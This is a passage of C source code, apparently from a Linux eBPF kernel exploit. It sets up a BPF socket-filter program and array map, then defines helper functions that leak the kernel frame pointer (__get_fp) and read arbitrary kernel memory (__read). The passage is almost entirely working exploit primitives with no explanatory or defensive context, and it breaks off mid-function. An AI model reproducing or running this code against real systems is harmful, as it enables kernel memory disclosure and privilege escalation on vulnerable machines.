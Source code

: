```

	return syscall(__NR_bpf, BPF_MAP_LOOKUP_ELEM, &attr, sizeof(attr));
}

static void __exit(char *err) {
	fprintf(stderr, "error: %s\n", err);
	exit(-1);
}

static void prep(void) {
	mapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY, sizeof(int), sizeof(long long), 3);
	if (mapfd < 0)
		__exit(strerror(errno));

	progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,
			(struct bpf_insn *)__prog, PROGSIZE, "GPL", 0);

	if (progfd < 0)
		__exit(strerror(errno));

	if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))
		__exit(strerror(errno));

	if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)
		__exit(strerror(errno));
}

static void writemsg(void) {
	char buffer[64];

	ssize_t n = write(sockets[0], buffer, sizeof(buffer));

	if (n < 0) {
		perror("write");
		return;
	}
	if (n != sizeof(buffer))
		fprintf(stderr, "short write: %lu\n", n);
}

#define __update_elem(a, b, c) \
	bpf_update_elem(0, (a)); \
	bpf_update_elem(1, (b)); \
	bpf_update_elem(2, (c)); \
	writemsg();

static uint64_t get_value(int key) {
	uint64_t value;

	if (bpf_lookup_elem(&key, &value))
		__exit(strerror(errno));

	return value;
}

static uint64_t __get_fp(void) {
	__update_elem(1, 0, 0);

	return get_value(2);
}

static uint64_t __read(uint64_t addr) {
	__update_elem(0, addr, 0);
```
